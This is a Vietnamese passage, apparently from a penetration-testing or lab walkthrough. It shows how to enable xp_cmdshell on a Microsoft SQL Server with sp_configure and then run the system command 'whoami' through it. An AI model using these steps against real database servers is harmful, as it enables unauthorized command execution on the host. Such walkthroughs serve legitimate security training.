 Thật vậy, không được kích hoạt. Vì lý do này sẽ cần tiến hành kích hoạt `xp_cmdshell` như sau:

```
EXEC sp_configure 'show advanced options', 1;
RECONFIGURE;
sp_configure; - Bật sp_configure như đã nêu trong thông báo lỗi ở trên
EXEC sp_configure 'xp_cmdshell', 1;
RECONFIGURE;
```

![alt text](image-10.png)

Bây giờ có thể thực hiện các lệnh hệ thống:

```
SQL> xp_cmdshell "whoami"
```

![alt text](image-11.png)
